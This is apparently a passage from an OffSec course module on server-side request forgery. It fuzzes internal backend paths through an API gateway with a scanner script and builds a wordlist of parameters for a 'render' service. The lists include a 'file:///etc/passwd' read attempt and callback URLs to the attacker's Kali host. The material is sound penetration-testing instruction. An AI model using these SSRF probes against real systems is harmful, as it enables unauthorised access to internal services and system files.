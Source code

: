 > Listing 37 - Searching for /render

Unfortunately, our request failed to find a valid resource. We need to consider that the URL of the backend service might not match the URL the API gateway exposes. For example, the backend URL could include versioning. Perhaps we can do some more fuzzing and inspect response codes to find the backend service.

First, we'll need to build a short wordlist with potential URLs.

```
/
/render
/v1/render
/api/render
/api/v1/render
```

> Listing 38 - Contents of paths.txt

After modifying one of our existing scripts, we'll run it.

```
kali@kali:~$ ./ssrf_path_scanner.py -t http://apigateway:8000/files/import -s http://172.16.16.5:9000 -p paths.txt --timeout 5
/                 OPEN - returned 404
/render           OPEN - returned 404
/v1/render        OPEN - returned 404
/api/render       {"errors":[{"message":"Request failed with status code 400","extensions":{"code":"INTERNAL_SERVER_ERROR"}}]}
/api/v1/render    OPEN - returned 404
```

> Listing 39 - Checking for possible paths

We received one interesting response: "Request failed with status code 400". An HTTP _400 Bad Request_ usually indicates that the server cannot process a request due to missing data or a client error. What might we be missing from our request? What could the render service do? We only know the name and it isn't very descriptive. Let's suppose it draws or creates something. How might we provide data to it?

Let's put together a list of potential parameter names and values. There are plenty of wordlists of parameter names available online.[1](https://portal.offsec.com/courses/web-300-687/learning/server-side-request-forgery-32493/wrapping-up-32524/wrapping-up-32531#fn-local_id_422-1) Let's start with a smaller list of values that seem relevant. We can always expand to a larger list if we need to. We'll include our Kali host in any potential URL or link field so we can watch for working requests.

```
?data=foobar
?file=file:///etc/passwd
?url=http://192.168.118.3/render/url
?input=foobar
?target=http://192.168.118.3/render/target
```

> Listing 40 - Contents of paths2.txt

Even if we don't have a valid parameter or value, perhaps we can still generate an error on the render service that would give us a clue as to our next step. When we are operating in an unknown environment or with an unfamiliar system, we sometimes have to rely on small differences in server responses, such as error messages, to infer what is happening in the unknown application.
